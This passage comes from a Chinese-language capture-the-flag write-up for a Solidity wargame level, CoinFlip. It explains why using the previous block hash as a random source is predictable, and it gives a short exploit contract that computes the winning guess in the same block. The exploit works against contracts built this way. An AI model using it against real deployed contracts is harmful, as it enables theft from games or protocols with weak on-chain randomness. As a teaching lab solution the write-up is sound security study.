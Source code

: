         function flip(bool _guess) public returns (bool) {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;

            if (side == _guess) {
                consecutiveWins++;
                return true;
            } else {
                consecutiveWins = 0;
                return false;
            }
        }
    }
    ```

要求连续猜对十次，合约中给出了它取随机数的方式，即将 block.number 减一，取哈希值，然后再除以 FACTOR 判断是否为 1

所以写一个新合约来获取同样的 block.number 就可以计算出答案

因为判断了 lashHash == blockValue 的时候 revert，所以需要等一段时间，逐次猜测，连续猜 10 次 

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: GPL-3.0
    pragma solidity ^0.6.0;

    /* code of CoinFlip */

    contract Exploit {
        using SafeMath for uint256;
        CoinFlip p;
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        constructor(address challenge) public {
            p = CoinFlip(challenge);
        }
        function exp() public {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;
            p.flip(side);
        }
    }
    ```

---

## Telephone
